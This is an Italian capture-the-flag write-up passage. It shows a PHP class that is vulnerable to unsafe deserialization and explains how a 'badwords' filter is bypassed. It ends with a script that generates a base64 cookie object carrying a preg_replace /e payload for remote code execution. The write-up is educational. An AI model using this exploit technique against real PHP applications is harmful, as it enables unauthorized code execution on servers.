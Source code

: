 ```php
         foreach ($badwords as $hackattempt){
            if(in($this->auditor->replace, $hackattempt)){
               die("WAF");
            }
         }
         $this->fullpath = @preg_replace("/". $attack , $this->auditor->replace , $this->fullpath);
        }
    }
}

Class SecurityCheck {
    public $attacks = array("([.]+\/)/", "(\\x00)$/");    
    public $replace = './';    
    public function get_attacks()
    {
        return $this->attacks;
    }    
}
?>
```

La classe definisce il metodo `__wakeup`, che viene chiamata quando un oggetto viene deserializzato. Notiamo che il metodo esegue `preg_replace` su alcuni parametri che vengono definiti dall'oggetto (e che controlliamo), dopo aver verificato che i parametri non contengono "badwords" - che permetterebbero l'esecuzione di codice via il flag `/e` di `preg_replace`.

Abbiamo bypassato questo check riutilizzando l'array `badwords` per richiamare una delle funzioni che viene controllata. Abbiamo preparato uno script php che genera l'oggetto con i parametri che vogliamo e lo converte automaticamente nel formato utilizzabile dal cookie `editor`:

```php
<?php
class StyleEditor {
    public $fullpath;
    public $filepath;
    public $auditor; 

    public function __construct() {
        $this->fullpath = "/var/www/CTF/settings.php"; 
        $this->filepath = "./settings.php"; 
        $this->auditor = new SecurityCheck; 
    }
}
class SecurityCheck{
    public $attacks = array("settings/e");
    public $replace = '\$badwords[2](\$_POST["x"]);';
}
print serialize(new StyleEditor);
print "\n";
print base64_encode(serialize(new StyleEditor));
print "\n";
```
